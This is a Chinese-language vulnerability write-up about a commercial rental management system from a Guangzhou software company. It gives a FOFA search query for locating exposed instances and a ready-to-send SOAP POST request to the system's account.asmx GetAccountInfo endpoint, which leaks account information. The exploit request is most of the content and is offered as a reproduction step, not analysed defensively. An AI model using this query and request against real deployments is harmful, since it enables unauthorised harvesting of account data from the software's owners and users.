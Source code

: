 # 竞优（广州）信息技术有限公司商业租赁管理系统存在account信息泄露

# 一、漏洞简介
作为地产及不动产数字化行业深耕者，三十多年来始终专注于企业管理软件的技术开发和咨询服务。我们多年对地产及不动产行业的专注投入、以及深刻理解能为企业提供专业的产品、高效的实施服务、强大的技术支持和优质的售后保障。竞优（广州）信息技术有限公司商业租赁管理系统存在account信息泄露。

# 二、影响版本
+ 商业租赁管理系统

# 三、资产测绘
+ fofa：`web.body="商业租赁管理系统"`
+ 特征

![1734059111504-935ba16c-2b17-4fde-bfb1-1e1aaeca4365.png](./img/g3wDnKSTiXIbeg2X/1734059111504-935ba16c-2b17-4fde-bfb1-1e1aaeca4365-805138.png)

# 四、漏洞复现
```java
POST /rental/contract/api/account.asmx HTTP/1.1
Host: 
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/GetAccountInfo"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetAccountInfo xmlns="http://tempuri.org/" />
  </soap:Body>
</soap:Envelope>
```

![1734107735397-9fddf4a4-d582-4080-852b-0c22e3914398.png](./img/g3wDnKSTiXIbeg2X/1734107735397-9fddf4a4-d582-4080-852b-0c22e3914398-503109.png)



> 更新: 2024-12-20 14:53:54  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/uzg50h4mdksdemst>